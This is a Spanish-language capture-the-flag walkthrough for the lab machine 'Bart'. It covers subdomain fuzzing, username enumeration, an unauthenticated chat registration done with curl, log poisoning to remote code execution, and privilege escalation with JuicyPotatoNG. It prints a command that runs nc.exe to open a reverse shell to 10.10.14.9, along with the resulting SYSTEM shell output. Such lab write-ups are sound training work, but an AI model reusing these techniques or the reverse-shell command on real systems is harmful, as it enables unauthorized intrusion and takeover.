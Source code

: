 ```yaml
---

---
```

-----------
- Tags: #subdomain #information-leakage #username-enumeration #simple-chat #log-poison #nishang #juicypotato #SeImpersonatePrivilege
- --------
## Técnicas utilizadas
- Subdomain Enumeration - Gobuster  
- Information Leakage  
- Username enumeration - Abusing the Forget Password Option  
- Simple Chat Exploitation - Creating a new user  
- Log Poisoning Attack - User Agent [RCE]  
- Nishang Invoke-PowerShellTcp Shell  
- Abusing SeImpersonatePrivilege [Privilege Escalation]
## Procedimiento
![[Pasted image 20230901224733.png]]

#### Reconocimiento
Si lanzamos un **nmap** contra la maquina podemos ver los siguientes puertos abiertos con sus respectivos servicios y versiones:
```ruby
# nmap -sCV -p80 10.10.10.81 -oN Ports
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-03 14:24 PDT
Nmap scan report for 10.10.10.81
Host is up (0.063s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Did not follow redirect to http://forum.bart.htb/
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.74 seconds
```

Un escaneo con **WhatWeb** sobre el aplicativo web, nos muestra estas tecnologías disponibles:
```ruby
# whatweb 10.10.10.81
http://10.10.10.81 [302 Found] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.10.10.81], Microsoft-IIS[10.0], PHP[7.1.7], RedirectLocation[http://forum.bart.htb/], X-Powered-By[PHP/7.1.7]
[http://forum.bart.htb/ [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[d.simmons@bart.htb,h.potter@bart.htb,info@bart.htb,r.hilton@bart.htb,s.brown@bart.loca,s.brown@bart.local], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.10.81], JQuery, MetaGenerator[WordPress 4.8.2], Microsoft-IIS[10.0], PoweredBy[WordPress], Script[text/javascript], Title[BART], WordPress[4.8.2]
```

----------
#### Subdomain Enumeration - Gobuster  
En el whatweb podemos ver algunos correos, vemos tambien en ellos un dominio disponible:
```
d.simmons@bart.htb,h.potter@bart.htb,info@bart.htb,r.hilton@bart.htb,s.brown@bart.loca,s.brown@bart.local
```
Con estos dominios vamos aplicar fuzzing para intentar encontrar nuevos subdominios disponibles:
```c
# fuzz -c --hc=404,302 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u "http://bart.htb" -H 'Host: FUZZ.bart.htb'
[...]
000000023:   200        548 L    2412 W     35529 Ch    "forum"                                                   
000000099:   200        80 L     221 W      3423 Ch     "monitor"
[...]
```

--------------
#### Information Leakage 
En la subdominio `forum.bart.htb` podemos encontrar algo interesante revisando el codigo fuente:
```

<!-- <div class="owl-item" style="width: 380px;"><div class="team-item"> 
<div class="team-inner">
<div class="pop-overlay">
<div class="team-pop">
<div class="team-info">
<div class="name">Harvey Potter</div>
<div class="pos">Developer@BART</div>
<ul class="team-social">
<li><a class="facebook" href="#" target="_blank"><i class="fa">F</i></a></li>
<li><a class="twitter" href="#" target="_blank"><i class="fa">T</i></a></li>
<li><a class="google" href="#" target="_blank"><i class="fa">G</i></a></li>
<li><a class="mail" href="mailto:h.potter@bart.htb" target="_blank"><i class="fa">M</i></a></li>
</ul>
</div>
</div>
</div>
<div class="avatar">
<img src="webste/1_002.jpg" class="attachment-sydney-medium-thumb size-sydney-medium-thumb wp-post-image" alt="" sizes="(max-width: 400px) 100vw, 400px" width="400" height="400"> </div>
</div>
<div class="team-content">
<div class="name">
Harvey Potter </div>
<div class="pos">Developer@BART</div>
</div>
</div></div>
<!-- Adding other employees breaks the CSS, I will fix it later. -->
```

Encontramos la posible cuenta de un desarrollador `h.potter@bart.htb`

#### Username enumeration - Abusing the Forget Password Option  
En el subdominio de `monitor.bart.htb` encontramos un **Login**. Hay una opcion para recuperar contraseña, esta parece ser vulnerable a enumeracion de usuarios dado que si colocamos un usuario que no existe nos muestra este mensaje:
![[Pasted image 20230903145128.png]]

Y si acertamos con un usuario correcto nos muestra esto:

![[Pasted image 20230903145208.png]]

La contraseña del usuario **Harvey** se puede deducir por su apellido, asi que si intentamos iniciar sesion con `Harvey:potter`nos deberia dejar entrar.
#### Simple Chat Exploitation - Creating a new user 
Dentro encontramos un dashboard y encontramos que hay un chat interno disponible:
![[Pasted image 20230903150933.png]]

Si ingresamos a el, encontramos un subdomnio nuevo:
![[Pasted image 20230903151037.png]]

Al ingresar vemos un Login muy cutre. Investigando por google, encontramos el [repositorio](https://github.com/magkopian/php-ajax-simple-chat/tree/master/simple_chat) del proyecto. Vemos que hay una ruta de registro:
![[Pasted image 20230903151750.png]]

Al intentar visitarla en el navegador nos manda un redirect al login, sin embargo, si mandamos una peticion con **Curl** si que nos deja registrar un usuario:
```ruby
# curl -s -X POST http://internal-01.bart.htb/simple_chat/register.php -d "uname=administrator&passwd=administrator"
```

Despues de burlar esta pequeña traba, encontramos un chat interno:
![[Pasted image 20230903151922.png]]

---------
#### Log Poisoning Attack - User Agent [RCE]  
En una esquina del chat vemos que hay un enlace que dice **Log** si interceptamos la peticion de cuando clickeamos aqui, vemos que esta intentando depositar un log en **log.txt**:
![[Pasted image 20230903152739.png]]

Pero, si intentamos apuntar al propio **log.php** (para que escriba en el archivo) y mandamos en el **user-agent** una tipica webshell para posteriormente ejecutar comandos, vemos que nos regresa un "1" que quiere decir que es correcto:
![[Pasted image 20230903152950.png]]

Ahora, al mandar un comando al parametro **CMD** veremos el output del comando:
![[Pasted image 20230903153021.png]]

---------
#### Nishang Invoke-PowerShellTcp Shell  
Con la ejecucion remota de comando asegurada, usaremos el **Invoke-Powershell.ps1** para ganar acceso a la maquina

-------
#### Abusing SeImpersonatePrivilege [Privilege Escalation]
Una vez dentro, podemos listar nuestros pivilegios y observamos que tenemos asignado el **SeIMpersonatePrivilege**:
```
PS C:\Users> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
```

Con esto, podemos basicamente impersonar a otro usuario (en este caso al administrador). Todo, gracias a **Juicy Potato** del siguiente [repositorio](https://github.com/antonioCoco/JuicyPotatoNG/releases/download/v1.1/JuicyPotatoNG.zip). Una vez arriba el binario, tambien subiremos **nc.exe** para entablarnos una reverse shell y ejecutaremos entonces, el siguiente comando:
```powershell
PS C:\tmp> .\JuicyPotatoNG.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Tmp\nc.exe -e cmd 10.10.14.9 443"


	JuicyPotatoNG
	by decoder_it & splinter_code

[*] Testing CLSID {854A20FB-2D44-457D-992F-EF13785D2B51} - COM server port 1337 
[+] authresult success {854A20FB-2D44-457D-992F-EF13785D2B51};NT AUTHORITY\SYSTEM;Impersonation
[+] CreateProcessAsUser OK
[+] Exploit successful! 
```

Y por otro lado, ganariamos acceso a la maquina como "**nt authority\\system**":
```powershell
# rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.81] 49946
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.
C:\>whoami
whoami
nt authority\system
```

